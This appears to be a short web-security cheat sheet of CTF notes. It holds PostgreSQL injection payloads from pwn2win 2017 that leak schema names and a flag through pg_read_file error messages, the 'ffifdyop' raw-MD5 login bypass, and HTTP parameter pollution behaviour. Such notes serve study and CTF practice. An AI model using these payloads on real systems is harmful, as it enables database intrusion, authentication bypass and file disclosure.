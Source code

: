 HQL injection example (pwn2win 2017)

- ```order=array_upper(xpath('row',query_to_xml('select (pg_read_file((select table_name from information_schema.columns limit 1)))',true,false,'')),1)```
    - Output: `ERROR: could not stat file "flag": No such file or directory`

- ```order=array_upper(xpath('row',query_to_xml('select (pg_read_file((select column_name from information_schema.columns limit 1)))',true,false,'')),1)```
    - Output: `ERROR: could not stat file "secret": No such file or directory`
- `order=array_upper(xpath('row',query_to_xml('select (pg_read_file((select secret from flag)))',true,false,'')),1)`
    - Output: `ERROR: could not stat file "CTF-BR{bl00dsuck3rs_HQL1njection_pwn2win}": No such file or directory`


## SQL Injection with MD5

- `$sql = "SELECT * FROM admin WHERE pass = '".md5($password, true)."'";`
- ffifdyop
    - md5: `276f722736c95d99e921722cf9ed621c`
    - to string: `'or'6<trash>`

## HTTP Parameter Pollution

- `id=1&id=2&id=3`
    - ASP.NET + IIS: `id=1,2,3`
    - ASP + IIS: `id=1,2,3`
    - PHP + Apache: `id=3`

# TEMP
about information_schema
https://portswigger.net/web-security/sql-injection/examining-the-database

